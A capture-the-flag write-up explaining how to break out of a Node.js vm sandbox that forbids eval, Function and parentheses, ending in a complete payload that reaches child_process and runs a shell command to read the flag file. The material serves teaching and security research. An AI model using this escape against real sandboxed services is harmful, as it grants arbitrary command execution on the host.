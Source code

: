 # Functionless Writeup (en)

## Author

@n4o847

## Challenge Overview

- The input code is executed using the [vm](https://nodejs.org/api/vm.html) module in Node.js
- Calls to `eval` and function constructors (such as `Function`) are prohibited
- The input must not contain any of the characters `(`, `)`, or <code>`</code>

## Vulnerability

First, since `this` refers to an object created outside of the context, `this.constructor.constructor` can be used to obtain a `Function` constructor outside of the VM.

The use of this external `Function` constructor is not prohibited by the constraint `codeGeneration: { strings: false }` and allows access to global objects outside of the VM.

```js
this.constructor.constructor("console.log(process)")()
```

Next, a quick search brings up the following code as a function call that uses neither parenteses nor backticks and can also be used in Node.js:

```js
x instanceof { [Symbol.hasInstance]: f }
```

This is equivalent to:

```js
!!f.call({}, x)

// or simply
!!f(x)
```

The challenges are here:

- The function `f` can only take one argument
- The result can only be obtained as a boolean value

We would like to combine this technique with the `Fuction` constructor to successfully execute arbitrary code, but it is difficult because it requires two consecutive calls like `Function(code)()`.

As a method to obtain the result of a function call, consider using `Array.prototype.reduce` in the following way:

```js
a = [x, y, z]
a[Symbol.hasInstance] = Array.prototype.reduce
f instanceof a
```

This is equivalent to:

```js
a = [x, y, z]
!!a.reduce(f)
```

and can be expanded to:

```js
a = [x, y, z]
!!f(f(x, y, 1, a), z, 2, a)
```

Here `f` should be a function that applies one of its arguments to the other.

Trying `f = Array.from`, we get:

```js
a = [x, y, z]
!!Array.from(Array.from(x, y, 1, a), z, 2, a)
```

and if `x` is an array, this is equivalent to:

```js
!!x.map(y, 1).map(z, 2)
```

Furthermore, if `x` is an array with a single element, this is equivalent to:

```js
!!z.call(2, y.call(1, x[0], 0), 1)

// or simply
!!z(y(x[0], 0), 1)
```

If you set `y = Function`, you can get the result of `y(x[0], 0)` passed to `z`, but the second unnecessary parameter `0` is being passed as the function body.

However, you can use a default parameter in the argument part of `Function` to execute any expression you like.

```js
f = Function("x = console.log(42)", "0")
f()  // output: 42
```

Thus, the following code gives a function `f` that executes arbitrary code:

```js
a = [["x = <code>"], this.constructor.constructor, _ => f = _]
a[Symbol.hasInstance] = Array.prototype.reduce
Array.from instanceof a
```

and you can call it so that the default parameter is evaluated.

```js
+{ valueOf: f }
```

## Solution

```js
c = "process.stdout.write\x28process.mainModule.require\x28'child_process'\x29.execSync\x28'cat flag-*.txt'\x29\x29"
a = [["x = " + c], this.constructor.constructor, _ => f = _]
a[Symbol.hasInstance] = Array.prototype.reduce
Array.from instanceof a
+{ valueOf: f }
```
